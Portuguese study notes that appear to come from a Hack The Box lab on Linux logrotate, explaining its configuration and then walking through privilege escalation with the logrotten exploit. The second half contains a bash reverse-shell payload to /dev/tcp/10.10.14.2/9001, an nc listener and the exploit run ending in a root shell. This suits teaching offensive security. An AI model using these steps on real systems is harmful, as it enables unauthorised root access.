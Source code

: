 Sistemas Linux geram uma grande quantidade de arquivos de log, que podem eventualmente encher o disco rígido se não forem gerenciados adequadamente. Para evitar isso, a ferramenta **logrotate** é utilizada para arquivar ou descartar logs antigos, garantindo que eles não ocupem todo o espaço disponível.

Isso também facilita a pesquisa de informações nos logs, economizando tempo. Os logs, localizados em **/var/log**, são essenciais para os administradores, pois ajudam a identificar causas de falhas e monitorar se todos os serviços estão funcionando corretamente.

`Logrotate`tem muitos recursos para gerenciar esses arquivos de log. Eles incluem a especificação de:

- o `size` do arquivo de log,
- isso é `age`,
- e a `action` a ser tomada quando um desses fatores for atingido.

```shell-session
NycolasES6@htb[/htb]$ man logrotate
NycolasES6@htb[/htb]$ # or
NycolasES6@htb[/htb]$ logrotate --help

Usage: logrotate [OPTION...] <configfile>
  -d, --debug               Don't do anything, just test and print debug messages
  -f, --force               Force file rotation
  -m, --mail=command        Command to send mail (instead of '/usr/bin/mail')
  -s, --state=statefile     Path of state file
      --skip-state-lock     Do not lock the state file
  -v, --verbose             Display messages during rotation
  -l, --log=logfile         Log file or 'syslog' to log to syslog
      --version             Display version information

Help options:
  -?, --help                Show this help message
      --usage               Display brief usage message
```

A função da rotação em si consiste em renomear os arquivos de log. Por exemplo, novos arquivos de log podem ser criados para cada novo dia, e os mais antigos serão renomeados automaticamente.
Outro exemplo disso seria esvaziar o arquivo de log mais antigo e, assim, reduzir o consumo de memória.

Esta ferramenta é geralmente iniciada periodicamente via `cron` e controlada via o arquivo de configuração `/etc/logrotate.conf`. Dentro deste arquivo, ele contém configurações globais que determinam a função de `logrotate`.

```shell-session
NycolasES6@htb[/htb]$ cat /etc/logrotate.conf


# see "man logrotate" for details

# global options do not affect preceding include directives

# rotate log files weekly
weekly

# use the adm group by default, since this is the owning group
# of /var/log/syslog.
su root adm

# keep 4 weeks worth of backlogs
rotate 4

# create new (empty) log files after rotating old ones
create

# use date as a suffix of the rotated file
#dateext

# uncomment this if you want your log files compressed
#compress

# packages drop log rotation information into this directory
include /etc/logrotate.d

# system-specific logs may also be configured here.
```

Para forçar uma nova rotação no mesmo dia, podemos definir a data após os arquivos de log individuais no arquivo de status `/var/lib/logrotate.status`ou usar a opção `-f`/ :`--force`

```shell-session
NycolasES6@htb[/htb]$ sudo cat /var/lib/logrotate.status

/var/log/samba/log.smbd" 2022-8-3
/var/log/mysql/mysql.log" 2022-8-3
```

Podemos encontrar os arquivos de configuração correspondentes no diretório `/etc/logrotate.d/`.

```shell-session
NycolasES6@htb[/htb]$ ls /etc/logrotate.d/

alternatives  apport  apt  bootlog  btmp  dpkg  mon  rsyslog  ubuntu-advantage-tools  ufw  unattended-upgrades  wtmp
```

```shell-session
NycolasES6@htb[/htb]$ cat /etc/logrotate.d/dpkg

/var/log/dpkg.log {
        monthly
        rotate 12
        compress
        delaycompress
        missingok
        notifempty
        create 644 root root
}
```

Para explorar `logrotate`, precisamos de alguns requisitos que temos que cumprir.

1. precisamos de permissões `write` nos arquivos de log
2. ``logrotate`` deve ser executado como um usuário privilegiado ou`root`
3. versões vulneráveis:
    - 3.8.6
    - 3.11.0
    - 3.15.0
    - 3.18.0

Há um exploit pré-fabricado que podemos usar para isso se os requisitos forem atendidos. Esse exploit é chamado [logrotten](https://github.com/whotwagner/logrotten) .

  Podemos baixá-lo e compilá-lo em um kernel similar do sistema de destino e então transferi-lo para o sistema de destino.Alternativamente, se pudermos compilar o código no sistema de destino, então podemos fazê-lo diretamente no sistema de destino.

```shell-session
logger@nix02:~$ git clone https://github.com/whotwagner/logrotten.git
logger@nix02:~$ cd logrotten
logger@nix02:~$ gcc logrotten.c -o logrotten
```

Em seguida, precisamos que uma carga útil seja executada. Neste exemplo, executaremos um shell reverso simples baseado em bash.

```shell-session
logger@nix02:~$ echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```

Entretanto, antes de executar o exploit, precisamos determinar qual opção `logrotate` usa em `logrotate.conf`.

```shell-session
logger@nix02:~$ grep "create\|compress" /etc/logrotate.conf | grep -v "#"

create
```

No nosso caso, é a opção: `create`. Portanto, temos que usar o exploit adaptado a esta função.

Depois disso, temos que iniciar um ouvinte em nossa VM / Pwnbox, que aguarda a conexão do sistema de destino.

```shell-session
NycolasES6@htb[/htb]$ nc -nlvp 9001

Listening on 0.0.0.0 9001
```

Como etapa final, executamos o exploit com a carga útil preparada e aguardamos um shell reverso como usuário privilegiado ou root.

```shell-session
logger@nix02:~$ ./logrotten -p ./payload /tmp/tmp.log
```

```shell-session
...
Listening on 0.0.0.0 9001

Connection received on 10.129.24.11 49818
# id

uid=0(root) gid=0(root) groups=0(root)
```























